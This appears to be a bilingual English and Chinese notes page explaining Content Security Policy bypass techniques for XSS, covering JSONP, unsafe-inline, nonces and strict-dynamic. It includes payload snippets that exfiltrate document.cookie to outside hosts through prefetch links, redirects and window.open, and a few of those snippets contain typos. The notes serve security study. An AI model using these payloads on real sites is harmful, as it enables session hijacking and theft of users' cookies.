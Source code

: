 First CSP: we can only load js from static path. In this case, we can find any redirect file under the path of `static/`, control it and redirect to the js file we want.  
Second CSP: We can find controllable script from trusted.domain.com, or any **jsonp** to exploit it, for example：  
```php
<script src="trusted.domain.com/jsonp?callback=alert(1)//"></script>
```
In addition to jsonp, `Angularjs` also can be used to bypass the CSP. Therefore, we need `strict-dynamic`.  
Let's take a look at more CSP  
```php
header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' ");
```
`unsafe-inline` means the added `<script>` in the page can execute, then we can bypass the limit of domain with following ways：  
  1. make link prefetch with js  
     [what's prefetch](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/Link_prefetching_FAQ)  
     prefetch: `DNS-prefetch`,`subresource`,`prefetch`,`preconnect`,`prerender`  
     Not all source can be preloaded, e.g. ajax, open your page of developer tool    
     ```js
     // can only be used by chrome  
     var x = document.createElement("link");
     x.setAttribute("rel", "prefetch");
     x.setAttribute("href", "//xxxxx.com/?" + document.cookie);
     document.head.appendChild(x);
     ```
  2. redirect && cross domain  
     跳轉的部分注意跳板也受host的限制，src路徑則跳脫限制  
     ```js
     <script>location.href='http://lorexxar.cn?a+document.cookie'</script>
     <script>windows.open('http://lorexxar.cn?a=+document.cooke')</script>
     <meta http-equiv="refresh" content="5;http://lorexxar.cn?c=[cookie]">
     //
     var x = document.createElement("x");
     x.href='http://xss.com/?cookie='+escape(document.cookie);
     x.click();
     ```  
* nonce script CSP  
  這是在CSP2出現的概念，Web應用會根據一個隨機token來判斷腳本是否可信任  
  ```php
  header("Content-Security-Policy: default-src 'self'; script-src 'nonce-{隨機}' ");
  ```
  以上CSP只有帶一樣nonce`<script nonce="{隨機}">alert(1)</script>`的script才可以執行  
  但是要**繞過**也很簡單，這個`隨機`字符串基本上是每次request都會重新產生(一次性)  
  ```php
  // 假設header裡面是類似 nonce-".$random." 在後端產生
  <script nonce="<?php echo $random ?>">
  ```  
  **Sebastian Lekies** 提出**DOM XSS**可以完虐nonce script CSP  
  [How to bypass CSP nonces with DOM XSS 🎅](http://sirdarckcat.blogspot.jp/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html)  
  諸如`location.hash`操作的xss攻擊，根本不需要經過後台，那nonce的值也不會刷新  
* strict-dynamic  
  這是在CSP3中新規範的一種參數，為了現代各式各樣的框架而提出  
  ```js
  script-src 'nonce-random' 'strict-dynamic'; object-src 'none'
  // 以下為masakato對strict-dynamic的解釋
  // 可加載
  <script src='test.com/a.js' nonce='random'></script>
  ```
  這樣一行CSP就可以確保所有**靜態**的`script`有匹配的nonce，strict-dynamic可以幫助開發人員在web運行過程中動態加載受信任的腳本  
  如果`a.js`想要加載其他的js，只有**非parser-inserted**的script可以被允許執行  
  ```js
  <!-- a.js -->
  // 可加載
  var script = document.createElement('script');
  ```
